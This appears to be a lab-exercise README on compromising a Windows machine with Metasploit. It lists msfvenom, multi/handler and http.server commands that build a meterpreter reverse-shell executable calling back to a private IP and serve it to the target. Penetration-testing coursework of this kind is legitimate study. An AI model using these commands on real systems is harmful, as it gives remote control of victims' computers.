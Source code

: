 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.66.29 LPORT=1234 --platform=windows -f exe>open.exe```

```msfconsole -q```

```set PAYLOAD windows/meterpreter/reverse_tcp```

```use exploit/multi/handler```

```set LHOST 192.168.66.29```

```set LPORT 1234```

```run```
## OUTPUT

![image](https://github.com/user-attachments/assets/e9635a54-219d-4435-9247-440690254853)


```python3 -m http.server 5678```

### OUTPUT:

![image](https://github.com/user-attachments/assets/da793e31-df02-4d4a-8387-9bd2557df737)



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
